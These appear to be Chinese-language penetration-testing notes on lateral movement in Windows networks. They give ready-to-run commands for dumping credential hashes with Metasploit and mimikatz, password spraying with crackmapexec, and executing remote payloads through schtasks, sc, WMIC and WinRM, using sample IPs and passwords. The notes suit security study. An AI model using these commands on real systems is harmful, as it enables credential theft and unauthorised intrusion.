 1. 侦察: 主机信息收集, 内网网络结构收集
2. 凭据/特权收集: 主机密码凭证
3. 对网络中其他计算机的访问权限

横向移动: 同网段攻击
纵向移动: 从当前网段跨网段攻击

使用msf，反弹shell到msf
获取账号密码及Hash
```msf
getuid
hashdump
getsystem
load kiwi
creds_all
```

```
crackmapexec smb 192.168.58.133 -u administrator -p '1qaz@WSX' --local-auth --users

crackmapexec smb 192.168.58.133 -u administrator -p '1qaz@WSX' --local-auth --shares

smbclient //192.168.58.133/C$ -U 'pc\administrator%1qaz@WSX'
```

内网主机存活探测
nbtscan

## 内网密码喷洒
1. 建立socket代理, 上传agent
2. 上线节点, 启动代理
3. proxychains
4. crackmapexec密码喷洒, 碰撞与当前主机使用相同密码的主机

## 内置命令
IPC$ 进程间通信命名管道, 可以建立安全的通道并以此通道加密数据的交换, 实现对远程计算机的访问
net share ipc$  
net share ipc$ /del

### IPC+Schtasks
`schtasks`: 管理员增删改, 运行和中止本地或远程系统上的计划任务
```sh
# 创建任务  
schtasks /create /tn task1 /U 域\域用户 /P 域用户密码 /tr 命令 /sc ONSTART /s 域机器ip /RU  
system  
# 运行任务  
schtasks /run /tn task1 /s 192.168.10.2 /U 域/域用户 /P 域用户密码

# 删除任务  
schtasks /F /delete /tn task1 /s 域机器ip /U 域\域用户 /p 域用户密码
```

### IPC+SC
`SC`: 注册, 删除和查询系统服务
```sh
sc \\10.10.10.20 create test binpath= "c:\xx.exe" obj= "mingy\administrator" password=1qaz@WSX1

sc \\10.10.10.20 start test
```

### WMIC
Windows Management Instrumentstion, 用户管理办呢滴和远程计算机的一种模型, 可以访问, 配置和监视几乎所有Windows资源
https://docs.microsoft.com/zh-cn/windows/win32/wmisdk/wmic

TCP135端口RPC, 系统管理员远程执行自动化管理任务
```sh
wmic /node:10.10.10.201 /user:administrator /password:1qaz@WSX3e process call create "cmd.exe /c ipconfig"
```

### WinRM
Windows远程管理服务, 可以操作windows命令行, 在server2012后默认开启
端口:
- 5985(HTTP)
- 5986(HTTPS)

```sh
# 开启WinRM服务
winrm quickconfig
# 允许访问TrustedHosts列表中的远程主机
winrm set winrm/config/client @{TrustedHosts="*"}
# 执行命令
winrs -r:http://10.10.10.201:5985 -u:administrator -p:1qaz@WSX3e ipconfig

# 创建和启动服务
winrm invoke Create wmicimv2/Win32_Service @{Name="test";DisplayName="test";PathName="cmd.exe /k c:\59.exe"} -r:http://10.10.10.201:5985 -u:administrator -p:1qaz@WSX3e

winrm invoke StartService wmicimv2/Win32_Service?Name=test -r:http://10.10.10.201:5985 - u:administrator -p:1qaz@WSX3e
```

本机是否拥有很多凭证, 决定了横向移动的难度